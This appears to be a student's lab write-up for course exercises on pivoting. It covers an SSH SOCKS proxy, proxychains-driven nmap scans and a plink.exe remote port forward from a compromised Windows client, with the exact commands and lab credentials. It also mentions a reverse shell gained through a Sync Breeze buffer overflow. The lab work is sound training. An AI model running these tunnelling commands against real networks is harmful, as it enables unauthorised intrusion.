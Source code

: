 As with previous sections, simply navigate to the proper directory and run the requested scripts as root.

**2.  Take note of the Linux client and Windows Server 2016 IP addresses.**

We can see from our lab control panel the following IPs:
Debian: 192.168.197.44
Windows 2016 Server: 172.16.197.5

**3.  Create a SOCKS4 proxy on your Kali machine, tunneling through the Linux target.**

We can create the proxy using the following command:
`sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128`

**4.  Perform a successful nmap scan against the Windows Server 2016 machine through the proxy.**

First, we then need to setup proxychains to run standard network applications through our created proxy. We do this by simply appended `socks4 127.0.0.1 8080` to our proxychains4.conf file.

Now that proxychains is setup we can use it by adding "proxychains" a the start of our commands. For the requested nmap scan the following command can be used:
`sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110`
![[nmap_results.png]]

**5.  Perform an nmap SYN scan through the tunnel. Does it work? Are the results accurate?**

By altering the previous command from a TCP connect scan (-sT) to a SYN scan (-sS) we get the following results.
![[nmap_failed_results.png]]
Note that all the ports are marked as filtered, indicated an unsuccessful scan. This is due to the lack of a payload for proxychains to forward.
# 20.3.1 PLINK.exe

**1.  Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.**

We can obtain a reverse shell by utilizing our initial buffer overflow payload we crafted in section 11.
![[syncbreeze_buffer_shell.png]]

**2.  Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10 client.**
As we are unable to reach the MYSQL service from our Kali machine we can utiilize the plink.exe application to forward us the port. We do this by executing the plink.exe binary on the Windows machine with the following command:
`plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`

This will execute plink and instruct it to ssh into our Kali machine with the credentials "kali:ilak" and remote port forward the address/port of our Kali box (10.11.0.4:1234) to the MYSQL port running on localhost (127.0.0.1:3306) We can also pipe "cmd.exe /c echo y" to this command in order provide an answer to the "Store key in chase" question which will be prompted the first time the tool runs.

`cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 192.168.119.197:9001:127.0.0.1:3306 192.168.119.197
